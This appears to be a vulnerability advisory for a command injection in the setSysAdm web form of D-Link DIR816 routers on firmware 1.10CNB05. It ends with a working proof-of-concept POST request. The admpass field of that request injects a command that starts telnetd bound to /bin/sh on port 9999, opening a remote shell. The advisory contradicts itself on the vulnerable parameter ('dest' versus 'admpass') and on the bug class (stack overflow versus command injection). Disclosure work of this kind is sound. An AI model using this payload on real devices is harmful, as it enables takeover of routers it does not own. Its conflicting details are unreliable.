

# DLink DIR816 command injection vulnerabilities
## Affected Version
DLink DIR816 1.10CNB05
## Vulnerability Description
In DLink DIR816 routers with firmware version 1.10CNB05, the dest parameter of route /goform/setSysAdm has a command injection vulnerabilities, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the sub_4569DC function in DLink DIR816 firmware 1.10CNB05. The function sub_4569DC, registered to handle the "setSysAdm" web form, accepts the admpass parameter from a Web request via the variable v4. This untrusted input is directly concatenated into a shell command string and executed via the statement doSystem((int)"chpasswd.sh %s %s", Var, v4);, leading to an OS Command Injection vulnerability. Since there is no sanitization or escaping of the user-supplied password string, an attacker can inject shell metacharacters (such as ;, &, or |) into the admpass field to execute arbitrary system commands with web server privileges.


## Poc
```py
POST /goform/setSysAdm HTTP/1.1
Host: 192.168.1.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: curShow=

admuser=admin&admpass=password123; /usr/sbin/telnetd -l /bin/sh -p 9999;&tokenid=1936217320
```
